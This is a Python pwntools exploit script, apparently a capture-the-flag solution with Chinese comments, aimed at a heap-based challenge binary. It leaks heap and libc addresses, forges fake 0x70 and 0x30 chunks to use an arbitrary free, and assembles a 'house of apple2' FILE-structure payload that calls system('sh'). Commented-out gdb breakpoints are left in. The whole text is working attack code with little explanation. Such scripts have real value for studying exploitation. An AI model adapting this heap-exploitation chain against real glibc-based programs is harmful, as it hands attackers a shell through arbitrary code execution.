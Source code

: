 ```py
for i in range(4):
    copy(["00"],"0"+str(i+1))

# gdb.attach(p,'''
# b *$rebase(0x193f)
# b* $rebase(0x186c) 
#            ''')
# pause()
for i in range(7):
    delete(["07","0"+str(i+1)])
delete(["01"])
list_array()
# leak heap base
p.recvuntil("[00] <S> ")
heap_base = u64(p.recv(5).ljust(8,b"\x00"))*0x1000
print(hex(heap_base))
# 把 我们之前 str_t 的 chunk 当成 array_t 申请出来并且写东西
update_array(["01"],1)
update_string(["01","00"],str(heap_base + 0x11d0)+"\n")
list_array()
p.recvuntil("[00] <S> ")
libc_leak = u64(p.recv(6).ljust(8,b"\x00")) # TODO
print(hex(libc_leak))
libc_base = libc_leak - 0x21ace0
print(hex(libc_base))
# 在某个堆空间中构造 fake chunk 然后用任意地址 free 来搞
# 构造 0x70 的 fake_chunk 覆盖我们的已经 free 的某个 chunk 来实现改 fd
# 先把堆块占上

update_array(["07","00"],8)
update_array(["07","01"],1)
update_array(["07","02"],1)
update_array(["07","03"],1)
for i in range(4):
    copy(["07","01"],"0"+str(i+4))
update_array(["07","00","00"],8)
update_array(["07","00","01"],1)
for i in range(3):
    copy(["07","00","01"],"0"+str(i+2))
# start chunk faking
update_string(["07","00","00","00"],b"a"*0x28+p64(0x71)+b"r"*0x10+b"\n")
update_string(["07","00","00","01"],b"m"*0x28+p64(0x31)+b"a"*0x10+b"\n")
# assemble house of apple2
payload_addr = heap_base + 0x22b8 # TODO
payload = b"a"*0x8+b"  sh;".ljust(0x20,b"\x00")+p64(1)+p64(2)+p64(0)
system = libc_base + libc.sym["system"]
# 从 0x68 开始
payload2 = p64(system)
payload2 = payload2.ljust(0x20,b"\x00")
payload2 += p64(payload_addr+0xe0) # 0x88
payload2 = payload2.ljust(0x38,b"\x00")
payload2 += p64(payload_addr) # 0xa0
# 从 0xd8 开始
payload3 = p64(0x2170c0+libc_base)+p64(payload_addr)+p64(0)+p64(payload_addr+0x200)
update_string(["07","00","00","02"],payload+b"\n")
update_string(["07","00","00","03"],payload2+b"\n")
update_string(["07","00","00","04"],payload3+b"\n")
# gdb.attach(p)
# pause()
update_string(["01","00"],str(heap_base + 0x2200)+"\n")
delete(["00","00","00"])
delete(["07","00","00","00"])
delete(["07","00","00","01"])
```